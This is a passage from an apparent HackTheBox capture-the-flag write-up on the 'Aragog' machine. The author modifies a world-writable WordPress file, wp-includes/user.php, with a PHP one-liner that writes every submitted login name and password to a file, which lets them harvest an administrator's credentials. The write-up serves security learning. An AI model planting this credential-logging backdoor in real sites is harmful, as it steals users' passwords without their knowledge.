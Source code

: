 Scrolling through the webpage I find an interesting post which says:

<a href="/img/blog/htb-aragog/htb-aragog-09.png" target="_blank"><img class="centerImgMedium" src="/img/blog/htb-aragog/htb-aragog-09.png"></a>

In case you can't see the image:
```
Hi Florian, Thought we could use a wiki.  Feel free to log in and have a poke around – but as I’m messing about with a lot of changes I’ll probably be restoring the site from backup fairly frequently! I’ll be logging in regularly and will email the wider team when I need some more … 
```

The line where Cliff says "I’ll be logging in regularly" is very important. If you recall, I mentioned that cracking the Administrator's password from the MySQL database failed. Well, why bother with cracking? The Wordpress directory in */var/www/html/dev_wiki/* is writable by everyone which means that we should be easily able to backdoor a file which is in charge of handling logins. Simply said, we can keylogg Cliff's login attempt and capture his password.

Here is a php one liner I found to work:
{% highlight php %} file_put_contents("/var/www/html/dev_wiki/wp-includes/v3ded.php", $_POST['log'] . " : " . $_POST['pwd'] . "\n", FILE_APPEND);{% endhighlight %} You can place it into multiple locations - `wp-login.php` or `wp-includes/user.php`. 

I'll go with the latter. Edit the *wp-includes/user.php* file so line 39 onwards looks like this:
{% highlight php %}

if ( ! empty($_POST['pwd']) ) {
	$credentials['user_password'] = $_POST['pwd'];
	file_put_contents("/var/www/html/dev_wiki/wp-includes/v3ded.php", $_POST['log'] . " : " . $_POST['pwd'] . "\n", FILE_APPEND);

}
...
...
...

{% endhighlight %}

<a href="/img/blog/htb-aragog/htb-aragog-10.png" target="_blank"><img class="centerImgHuge" src="/img/blog/htb-aragog/htb-aragog-10.png"></a>
